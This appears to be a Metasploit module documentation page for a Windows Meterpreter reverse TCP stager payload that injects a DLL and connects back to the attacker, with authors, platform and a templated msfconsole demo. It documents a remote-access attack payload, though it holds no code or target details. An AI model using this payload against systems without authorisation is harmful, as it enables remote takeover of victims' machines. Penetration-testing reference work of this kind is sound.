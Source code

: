 ## Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (No NX or Win7)

Inject the meterpreter server DLL (staged). Connect back to 
the attacker (No NX)


## Module Name
payload/windows/patchupmeterpreter/reverse_nonx_tcp

## Authors
* skape
* jt <jt@klake.org>
* vlad902





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    